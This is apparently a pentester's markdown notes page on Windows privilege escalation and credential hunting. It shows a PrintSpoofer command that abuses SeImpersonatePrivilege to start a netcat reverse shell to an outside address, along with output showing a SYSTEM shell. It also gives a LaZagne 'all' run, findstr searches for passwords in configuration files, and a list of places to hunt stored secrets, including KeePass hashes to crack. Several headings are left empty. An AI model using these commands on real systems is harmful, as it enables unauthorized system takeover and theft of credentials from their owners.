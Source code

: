 ## delete

# Enumeration
```powershell
> whoami /priv
```


# Vulnerabilities
## Rogue Potato

## Juicy/Lovely Potato

## [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
Service Account (IIS/MSSQL) got privilge SeImpersonatePrivilege 

Create a reverse shell:
```powershell
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

Netcat listener:

C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```




# Credential Harvesting
## Key Terms to Search

Passwords 	Passphrases 	Keys
Username 	User account 	Creds
Users 	Passkeys 	Passphrases
configuration 	dbcredential 	dbpassword
pwd 	Login 	Credentials

## Search Tools
With access to the GUI, it is worth attempting to use Windows Search to find files on the target using some of the keywords mentioned above.

By default, it will search various OS settings and the file system for files & applications containing the key term entered in the search bar.


### Running Lazagne All
We can also take advantage of third-party tools like [Lazagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store. It would be beneficial to keep a standalone copy of Lazagne on our attack host so we can quickly transfer it over to the target. Lazagne.exe will do just fine for us in this scenario.

```powershell
> start lazagne.exe all
```

### Using findstr
We can also use findstr to search from patterns across many types of files. Keeping in mind common key terms, we can use variations of this command to discover credentials on a Windows target:

```powershell
> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
> findstr /si "password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Additional Considerations
Here are some other places we should keep in mind when credential hunting:
    - Passwords in Group Policy in the SYSVOL share
    - Passwords in scripts in the SYSVOL share
    - Password in scripts on IT shares
    - Passwords in web.config files on dev machines and IT shares
    - unattend.xml
    - Passwords in the AD user or computer description fields
    - KeePass databases --> pull hash, crack and get loads of access.
    - Found on user systems and shares
    - Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint

